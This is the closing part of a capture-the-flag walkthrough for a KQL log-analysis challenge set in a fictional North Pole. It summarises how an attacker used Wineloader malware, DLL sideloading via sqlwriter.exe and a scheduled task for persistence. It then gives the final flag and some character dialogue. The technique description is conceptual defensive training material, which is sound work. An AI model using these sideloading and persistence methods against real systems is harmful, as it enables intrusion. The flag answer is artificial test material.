> Congratulations! You've successfully identified the threat actor's tactics. The attacker gained access to WebApp-ElvesWorkshop from the IP address 182.56.23.122, dumped credentials, and used those to send phishing emails internally to Noel.
> 
> The malware family they used is called Wineloader, which employs a technique known as DLL sideloading. This technique works by placing a malicious DLL in the same directory as a legitimate executable (in this case, sqlwriter.exe).
>
> When Windows tries to load a referenced DLL without a full path, it checks the executable's current directory first, causing the malicious DLL to load automatically. Additionally, the attacker created a scheduled task to ensure sqlwriter.exe runs on system boot, allowing the malicious DLL to maintain persistence on the system.
>
> **To obtain your FINAL flag use the KQL below with your last answer!**
>
> ```
> let finalflag = "Change This!";
> let base64_encoded = base64_encode_tostring(finalflag);
> print base64_encoded
> ```

Let's use the given template to create this query and run it.
```
let finalflag = "frosty";
let base64_encoded = base64_encode_tostring(finalflag);
print base64_encoded
```

**Answer:** `ZnJvc3R5`

---

## Solution

To get the medals on HHC, we can navigate to the Objectives screen, and enter the last answer of every section there.

---

## Outro

**Pepper Minstix**

Outstanding work! You've expertly sifted through the chaos of the KQL logs and uncovered crucial evidence. We're one step closer to saving the North Pole!

Bravo! You've traced those phishing emails back to their devious source. Your sharp detective skills are keeping our elves safe from harm!

Fantastic! You've tracked down the compromised accounts and put a stop to the malicious activity. Our systems are stronger thanks to you!

Incredible! You've neutralized the ransomware and restored order across the North Pole. Peace has returned, and it's all thanks to your relentless determination!

Ho-ho-holy snowflakes! You've done it! With the precision of a candy cane craftsman and the bravery of a reindeer on a foggy night, you've conquered all four tasks! You're a true holiday hero!

**Wunorse**

Dude, c'mon. I thought we were bros! Why are you messin' with our achievements like that?

Those phishing emails were totally devious, you gotta admit. Now let's head over to Wombley HQ and I'll show you how we craft them.

Hey, we needed those accounts! Alright, broseph, you got one more chance or I'm telling Wombley how lame you are.

Why you gotta be like that? Not cool. We worked so hard on that ransomware, and you dismantled the whole thing. So many wasted energy drinks…

Whatevs, it's all good. This was just a practice run anyways. The real attack is going down later. And it's gonna be sick!

---

## References

- [KC7 — The Great Elf Conflict](https://kc7cyber.com/modules/the-great-elf-conflict) — challenge platform
- [KQL documentation](https://learn.microsoft.com/en-us/azure/data-explorer/kusto/query/) — Kusto Query Language reference
- [Wineloader malware — MITRE ATT&CK](https://attack.mitre.org/software/S1114/) — DLL sideloading technique referenced in Section 4
- [DLL sideloading — MITRE ATT&CK T1574.002](https://attack.mitre.org/techniques/T1574/002/)

---

## Navigation

| |
|:---|
| ← [Snowball Showdown](../snowball-showdown/README.md) |
